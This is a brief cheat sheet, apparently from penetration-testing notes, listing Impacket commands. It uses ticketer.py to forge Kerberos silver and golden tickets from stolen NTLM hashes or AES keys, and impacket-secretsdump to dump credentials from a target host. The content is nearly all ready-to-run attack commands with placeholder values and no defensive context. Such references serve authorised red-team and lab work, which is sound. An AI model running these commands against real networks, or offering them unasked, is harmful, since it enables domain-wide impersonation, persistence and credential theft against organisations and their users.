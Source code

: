 Impacket

# Impacket

### Generate Silver Tickets with Impacket:
- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

### Generate Golden Tickets:
- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

### Credential Access with Secretsdump

- impacket-secretsdump username@target-ip -dc-ip target-ip
